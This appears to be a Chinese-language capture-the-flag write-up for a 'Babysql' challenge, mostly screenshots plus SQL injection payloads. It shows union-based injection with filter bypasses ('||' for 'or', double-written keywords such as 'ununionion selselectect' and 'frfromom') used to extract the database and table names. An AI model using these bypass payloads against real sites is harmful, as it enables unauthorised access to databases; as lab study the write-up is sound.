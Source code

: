 # 基础
##  Babysql
万能公式起手

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203725280-0f68a7f7-659a-46e1-bed2-d2ed9f84c952.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203753482-6d98ce83-a9e7-4fa5-b29a-b2bec258abe4.png)

根据回显报错发现or被过滤掉了 于是用 <font style="color:#601BDE;">|| </font><font style="color:#000000;">来代替</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203838539-b343b1d4-0cf2-4412-aa13-869658e328a4.png)

又发现了这个回显页面 还是试着用联合注入寻找回显位置

```sql
1' union select 1,2,3#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203972208-4ea33db5-541b-4553-bf75-03196722dca0.png)

根据回显报错发现union select 被过滤了

双写绕过

```sql
1' ununionion selselectect 1,2,3#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732204696895-ae4b3211-aaf0-4de5-8fa9-27c207495f48.png)

爆出数据库名字payload

```sql
1'  ununionion selselectect 1,2,database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732204912329-1d7b4e7a-696d-4db2-b2a4-76c2c3c3add9.png)

接着构建payload爆数据库中的表名

```sql
1'  ununionion selselectect 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732205168959-8a21606f-5d70-40dd-8560-46284a8662ff.png)

回显报错发现or where from被过滤了 需要双写绕过构建新的payload

```sql
1'  ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema=database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732205635674-0424f1bf-4ecd-4ae4-b31d-f31564119790.png)
